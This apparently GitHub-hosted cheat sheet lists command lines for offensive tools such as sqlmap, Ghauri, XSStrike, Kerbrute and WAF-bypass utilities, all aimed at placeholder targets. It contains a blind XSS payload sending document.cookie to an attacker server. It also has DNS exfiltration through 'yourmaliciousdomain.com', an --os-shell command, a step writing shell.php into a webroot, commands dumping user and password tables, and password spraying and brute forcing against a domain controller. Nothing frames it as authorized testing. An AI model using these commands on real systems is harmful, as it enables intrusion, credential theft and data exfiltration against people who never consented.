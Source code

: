 # Tools-Notes
************************--------Notes--------************************


--SQLMC--
Normal user 
Basic Command: sqlmc -u http://example.com -d 2 -o Output_file

--------------------------------------------------------------------------------------------------------------



--Xsstrike--

Basic Command:  python3 xsstrike.py -u http://example.com 

Scanning a List of URLs: python3 xsstrike.py --file urls.txt

Crawl Mode: python3 xsstrike.py --crawl -u http://example.com/

Use a Proxy: python3 xsstrike.py -u "http://example.com/" --proxy http://127.0.0.1:8080

Use a Custom User-Agent: python3 xsstrike.py -u "http://example.com/" --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"

Specify Cookies: python3 xsstrike.py -u "http://example.com/" --cookie "sessionid=abc123; user=admin"

Specify HTTP Headers: python3 xsstrike.py -u "http://example.com/" --headers "Authorization: Bearer token123"

Use Fuzzing Mode: python3 xsstrike.py -u "http://example.com/search.php?q=test" --fuzzer

Blind XSS: python3 xsstrike.py -u "http://example.com/search.php?q=test" --payload "<script>new Image().src='http://yourserver.com/callback?c='+document.cookie;</script>"

--------------------------------------------------------------------------------------------------------------


--Sqlmap--

Basic Commands: sqlmap -u http://example.com/page.php?id=1

Request Method (GET/POST): sqlmap -u "http://example.com/page.php?id=1" --method=POST --data="username=admin&password=admin"

Specify HTTP Headers (User-Agent, Referer, Cookie, etc.): sqlmap -u "http://example.com/page.php?id=1" --headers="User-Agent: Mozilla/5.0, Referer: http://google.com"
                                                                                                          OR
sqlmap -u "http://example.com/page.php?id=1" --cookie="PHPSESSID=123456789"

Database Enumeration: sqlmap -u "http://example.com/page.php?id=1" –dbs

Enumerate Tables: sqlmap -u "http://example.com/page.php?id=1" -D targetdb –tables

Dump a Table’s Data: sqlmap -u "http://example.com/page.php?id=1" -D targetdb -T users –dump

Specify SQL Injection Techniques: sqlmap -u "http://example.com/page.php?id=1" --technique=BEUST
•	B: Boolean-based Blind
•	E: Error-based
•	U: UNION query-based
•	S: Stacked queries
•	T: Time-based Blind

Tamper Scripts to Bypass WAF/Filters: sqlmap -u "http://example.com/page.php?id=1" --tamper=space2comment
•	You can list all tamper scripts with: sqlmap --list-tampers

Crawling Websites: sqlmap -u "http://example.com/" --crawl=5 --level=3

Bypassing WAF with Random User-Agent: sqlmap -u "http://example.com/page.php?id=1" --random-agent

Scanning with a Proxy: sqlmap -u "http://example.com/page.php?id=1" --proxy=http://127.0.0.1:8080

SQL Injection with Time Delays: sqlmap -u "http://example.com/page.php?id=1" --time-sec=10

Using a Custom Payload: sqlmap -u "http://example.com/page.php?id=1" --payload="1' OR '1'='1"

Specifying Risk and Level: sqlmap -u "http://example.com/page.php?id=1" --level=5 --risk=3
•	--level: Specifies the level of tests. It ranges from 1 to 5 (higher levels perform more tests).
•	--risk: Specifies the risk level, ranging from 1 to 3 (higher risks include potentially destructive actions).

Brute-Forcing the Passwords: sqlmap -u "http://example.com/page.php?id=1" –passwords

Direct SQL Shell on the Target: sqlmap -u "http://example.com/page.php?id=1" --os-shell

Dump Specific Columns from a Table: sqlmap -u "http://example.com/page.php?id=1" -D targetdb -T users -C username,password –dump

Enumerate Users, Privileges, Roles: sqlmap -u "http://example.com/page.php?id=1" –users
•	--users: Lists all database users.
•	--privileges: Retrieves privileges for the database users.
•	--roles: Enumerates roles assigned to the users.

Session Management: sqlmap -u "http://example.com/page.php?id=1" --flush-session

Performing a Blind SQL Injection Test: sqlmap -u "http://example.com/page.php?id=1" --technique=B --level=3 --risk=3

Advanced Enumeration Options: sqlmap -u "http://example.com/page.php?id=1" --columns -D targetdb -T users

DNS-Based Data Exfiltration: sqlmap -u "http://example.com/page.php?id=1" --dns-domain="yourmaliciousdomain.com"

Advanced File Writing/Reading: sqlmap -u "http://example.com/page.php?id=1" --file-write="/path/to/yourfile" --file-dest="/var/www/html/shell.php"

Output to a File: sqlmap -u "http://example.com/page.php?id=1" --batch --output-dir="/your/output/directory/"

--------------------------------------------------------------------------------------------------------------


--Ghauri--

Basic Usage: python3 ghauri.py -u http://example.com/page.php?id=1

Using POST Request: python3 ghauri.py -u "http://example.com/page.php" --data="id=1"
•	--data="id=1" specifies the POST data, indicating that this is a POST request.

Setting Custom User-Agent:  python3 ghauri.py -u "http://example.com/page.php?id=1" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64)"

Specifying Cookies: python3 ghauri.py -u "http://example.com/page.php?id=1" --cookie="PHPSESSID=abcdef123456"

Listing Databases: python3 ghauri.py -u "http://example.com/page.php?id=1" –dbs

Specify an HTTP Method:  python3 ghauri.py -u "http://example.com/page.php?id=1" --method=POST --data="username=admin&password=admin"

Request Timeout:  python3 ghauri.py -u "http://example.com/page.php?id=1" --timeout=30

Blind SQL Injection Detection:  python3 ghauri.py -u "http://example.com/page.php?id=1" --technique=B

Setting Delays for Time-Based SQL Injection: python3 ghauri.py -u "http://example.com/page.php?id=1" --delay=5

Custom HTTP Headers: python3 ghauri.py -u "http://example.com/page.php?id=1" --headers="Authorization: Bearer abc123" 

Injecting into Multiple Parameters: python3 ghauri.py -u http://example.com/page.php?id=1&cat=2

Output to a File: python3 ghauri.py -u "http://example.com/page.php?id=1" --output-file=results.txt

Specify Technique:  python3 ghauri.py -u "http://example.com/page.php?id=1" --technique=BT
•	B: Boolean-based Blind
•	T: Time-based Blind
Setting the Number of Retries:  python3 ghauri.py -u "http://example.com/page.php?id=1" --retries=3

Using Proxy: python3 ghauri.py -u "http://example.com/page.php?id=1" --proxy=http://127.0.0.1:8080

Increasing Verbosity for Debugging: python3 ghauri.py -u "http://example.com/page.php?id=1" –verbose

Tampering or Bypassing Filters:  python3 ghauri.py -u "http://example.com/page.php?id=1" --tamper="space2comment"

Using DNS-Based Data Exfiltration:  python3 ghauri.py -u "http://example.com/page.php?id=1" --dns-domain="yourmaliciousdomain.com"

Commonly Used Combined Commands: python3 ghauri.py -u "http://example.com/page.php" --data="id=1" --user-agent="Mozilla/5.0" --proxy=http://127.0.0.1:8080

Full Scan Using Blind and Time-Based Techniques: python3 ghauri.py -u "http://example.com/page.php?id=1" --technique=BT --verbose --timeout=10

Exfiltrating Data from a Specific Table: python3 ghauri.py -u "http://example.com/page.php?id=1" --technique=B --dbs --dump --table=users

--------------------------------------------------------------------------------------------------------------
 



--Kerbrute--

Check Valid Usernames: ./kerbrute_linux_amd64 userenum -d example.com --dc 192.168.1.10 usernames.txt

Password Spray Attack: ./kerbrute_linux_amd64 passwordspray -d example.com --dc 192.168.1.10 usernames.txt -p Password123

Brute Force: ./kerbrute_linux_amd64 bruteforce -d example.com --dc 192.168.1.10 usernames.txt passwords.txt

Verbose User Enumeration: ./kerbrute_linux_amd64 userenum -d example.com --dc 192.168.1.10 usernames.txt -v

User Enumeration with Multi-Threading: ./kerbrute_linux_amd64 userenum -d example.com --dc 192.168.1.10 usernames.txt --threads 100 

Password Spray with Multiple Passwords: ./kerbrute_linux_amd64 passwordspray -d example.com --dc 192.168.1.10 usernames.txt -P passwords.txt -v

Output to File: ./kerbrute_linux_amd64 userenum -d example.com --dc 192.168.1.10  usernames.txt --output valid_users.txt

User Enumeration with Custom Timeout: ./kerbrute_linux_amd64 userenum -d example.com   --dc 192.168.1.10  usernames.txt --timeout 5s

Brute Force with Debug Mode: ./kerbrute_linux_amd64 bruteforce -d example.com  --dc 192.168.1.10  usernames.txt passwords.txt –debug

--------------------------------------------------------------------------------------------------------------





--Webcopilot--


Specify a Target: webcopilot -u http://example.com

Crawl Website: webcopilot -u "http://example.com" --crawl

Port Scanning: webcopilot -u "http://example.com" –ports

SQL Injection Scan: webcopilot -u "http://example.com" --sqlscan

Cross-Site Scripting (XSS) Scan: webcopilot -u "http://example.com" --xss

Directory Brute-forcing: webcopilot -u "http://example.com" --dirbrute 

Login Brute-Force: webcopilot -u "http://example.com/login" --login --users users.txt --passwords passwords.txt

Bypassing Filters: webcopilot -u "http://example.com" --bypass

Custom User-Agent: webcopilot -u "http://example.com" --user-agent "Mozilla/5.0"

Use a Proxy: webcopilot -u "http://example.com" --proxy http://127.0.0.1:8080

Save Output to a File: webcopilot -u "http://example.com" --output report.txt


--------------------------------------------------------------------------------------------------------------



--Wafpass.--

Specify a Target URL: wafpass -u http://example.com

Basic Payload Testing: wafpass -u "http://example.com" --payload "1' OR '1'='1"

Using Encoding Techniques: wafpass -u "http://example.com" --encode base64

Using Different Tamper Scripts: wafpass -u "http://example.com" --tamper space2comment
            List of Possible Tamper Scripts:
•	space2comment: Replaces spaces with SQL comments.
•	charencode: Encodes characters in hexadecimal.
•	base64encode: Encodes payloads in Base64.
•	between: Inserts SQL comments between SQL keywords.


Testing Multiple WAF Bypass Techniques: wafpass -u "http://example.com" --techniques BT
•	B: Boolean-based techniques.
•	T: Time-based techniques.

Custom Headers for Obfuscation: wafpass -u "http://example.com" --headers "X-Forwarded-For: 127.0.0.1"

Using Different HTTP Methods: wafpass -u "http://example.com" --method POST --data "username=admin&password=admin"

Testing with Custom Payloads: wafpass -u "http://example.com" --payload "<custom payload>"

Testing Using a Proxy: wafpass -u "http://example.com" --proxy http://127.0.0.1:8080

Delay Between Requests: wafpass -u "http://example.com" --delay 3

Verbose Mode for Debugging: wafpass -u "http://example.com" -v

Combining Tamper Scripts and Encoding: wafpass -u "http://example.com" --payload "1' OR '1'='1" --tamper space2comment,between --encode base64

Using Proxy and Custom Headers: wafpass -u "http://example.com" --proxy "http://127.0.0.1:8080" --headers "User-Agent: Mozilla/5.0"

Testing with Delay and Verbose Output: wafpass -u "http://example.com" --delay 5 -v


--------------------------------------------------------------------------------------------------------------



--TorNet--

sudo tornet --interval 5  --count 0 

--------------------------------------------------------------------------------------------------------------



